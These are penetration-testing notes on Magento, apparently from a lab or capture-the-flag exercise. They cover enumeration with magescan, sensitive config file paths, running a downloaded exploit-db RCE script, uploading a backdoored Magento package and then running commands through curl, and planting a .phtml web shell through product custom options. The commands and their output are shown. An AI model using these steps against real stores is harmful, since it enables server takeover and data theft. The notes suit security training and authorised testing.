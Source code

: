# Majento Enumeration

## Checks
- Look for Majento version
- Easy access to the admin panel (Credentials reuse)

## Tool to enumerate (magescan)
```bash
# Clone the github repository
git clone https://github.com/steverobbins/magescan.git
```
#### How to use it
```bash
php magescan.phar scan:all www.example.com
```

## Interesting files
- /app/etc/local.xml
- /index.php/rss/order/NEW/new
- /app/etc/config.xml

## Getting code execution
### Magento CE < 1.9.0.1 - (Authenticated) Remote Code Execution 
```bash
# Downlaod the exploit
wget https://www.exploit-db.com/raw/37811

# Execute it on the admin login page
python magento_rce.py 'http://10.10.10.140/index.php/admin' "uname -a"
Linux swagshop 4.4.0-146-generic #172-Ubuntu SMP Wed Apr 3 09:00:08 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
```

### Upload malicious Magento package
1. Download a malicious Magento package
```bash
git clone https://github.com/lavalamp-/LavaMagentoBD.git
```
2. Upload the malicious package
	- http://10.10.10.140/downloader/
3. Execute the shell by accessing the URL
```bash
curl -d 'c=id' http://10.10.10.140/index.php/lavalamp/index
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```


### Command Execution in Product Creation
1. Login with a user that has a privilege to create products.
2. Create a new product or edit an existing product to add Custom Options.
3. Upload your .phtml (allowed extension for “Magento”).
4. Access your file providing a full path to the file.

#### Exploitation
- Catalog -> Manage Products
- Click "Edit" on one of the products
- Clicks "Custom Options"
- Click "Add New Option"
- Update the "Title" and "Input Type"
	- In "Allowed File Extension" put ".phtml" (A standard PHP backdoor will be enough)
- Click on the updated products directly from the home page
- Click on "Browse" to upload the malicious ".phtml" file
- Click "Add to card"
- Access the file here :
	- /media/custom_options/quote/firstLetterOfYourFileName/secondLetterOfYourFileName/md5(contentOfYourPhtmlFile).phtml